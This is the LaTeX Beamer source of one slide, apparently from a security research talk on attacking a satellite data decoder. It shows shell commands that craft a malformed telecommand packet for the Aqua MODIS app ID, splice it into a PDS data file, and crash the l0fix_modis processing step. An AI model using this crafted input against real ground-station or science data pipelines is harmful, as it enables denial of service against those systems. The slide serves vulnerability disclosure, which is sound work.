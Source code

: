\documentclass[aspectratio=169]{beamer}
\begin{document}
\begin{frame}[fragile]
  \frametitle{Exploiting the decoder}
  \framesubtitle{Attack consequences}
  \begin{lstlisting}[basicstyle=\ttfamily\scriptsize,basewidth=0.6em]
$ printf %1337s  | tr " " "f"  | \
  spppack --type-flag telecommand \
            --sec-hdr-flag 1 \
            --app-id aqua_modis \
  > bad_packet.PDS
  \end{lstlisting}

  \pause
  \begin{lstlisting}[basicstyle=\ttfamily\scriptsize,basewidth=0.6em]
$ cat bad_packet.PDS good_packet_sequence.PDS \
    > ./data/MYD00F.A2015299...001.PDS
  \end{lstlisting}

  \pause
  \begin{lstlisting}[basicstyle=\ttfamily\scriptsize,basewidth=0.6em]
$ ./run_all.sh ./data/
DATA_PATH: /mnt/data
CONTAINER_RUNTIME: docker
  \end{lstlisting}

  \pause
  \begin{lstlisting}[basicstyle=\ttfamily\scriptsize,basewidth=0.6em]
### Processing new PDS:
  MYD00F.A2015299.2110.20152992235.001.PDS
  \end{lstlisting}

  \pause
  \begin{lstlisting}[basicstyle=\ttfamily\scriptsize,basewidth=0.6em]
### Running modisl1db l1a-geo initial processing
<@\textcolor{red}{l0fix\_modis: Unrecoverable error in l0fix\_modis!}@>
  \end{lstlisting}

  \pause
  Further vulnerabilities have been discovered since submission
\end{frame}

\section{Countermeasures}
\end{document}
